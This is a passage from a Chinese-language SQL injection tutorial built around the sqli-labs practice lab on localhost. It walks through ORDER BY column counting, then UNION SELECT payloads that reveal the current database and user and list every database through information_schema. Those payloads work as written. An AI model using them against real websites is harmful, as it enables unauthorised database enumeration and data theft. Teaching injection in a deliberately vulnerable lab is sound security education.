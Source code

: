```
    http://localhost/sqli-labs-master/Less-1/?id=1' order by 4 --+
    

```

正确：

```
    http://localhost/sqli-labs-master/Less-1/?id=1' order by 3 --+
    

```

### 获取当前数据库和用户信息

下面我们通过SQL注入来获取想要的信息，比如想要获取当前数据库和用户信息。

这里我们使用UNION操作符。在MySQL中，UNION操作符前后两个SELECT语句的查询结构必须一致。刚才我们已经通过实验，判断出查询语句的字段个数为3，因此在构造UNION后面的查询语句时也需要查询3个字段。这里我们可以使用：`SELECT 1,database(),user()`，也就是使用默认值1来作为第一个字段，整个URL为：`http://localhost/sqli-labs-master/Less-1/?id=' union select 1,database(),user() \--+`。

![](./httpsstatic001geekbangorgresourceimagea1cda186b5758d80983b4d34818169b719cd.png)  
页面中显示的`security`即为当前的数据库名称，`root@localhost`为当前的用户信息。

### 获取MySQL中的所有数据库名称

我们还想知道当前MySQL中所有的数据库名称都有哪些，数据库名称数量肯定会大于1，因此这里我们需要使用`GROUP_CONCAT`函数，这个函数可以将`GROUP BY`产生的同一个分组中的值连接起来，并以字符串形式返回。

具体使用如下：

```
    http://localhost/sqli-labs-master/Less-1/?id=' union select 1,2,(SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata)--+
    

```

这样我们就可以把多个数据库名称拼接在一起，作为字段3返回给页面。

![](./httpsstatic001geekbangorgresourceimage7ea77e1aa81c623e28c87666cfdd290462a7.png)  
你能看到这里我使用到了MySQL中的`information_schema`数据库，这个数据库是MySQL自带的数据库，用来存储数据库的基本信息，比如数据库名称、数据表名称、列的数据类型和访问权限等。我们可以通过访问`information_schema`数据库，获得更多数据库的信息。
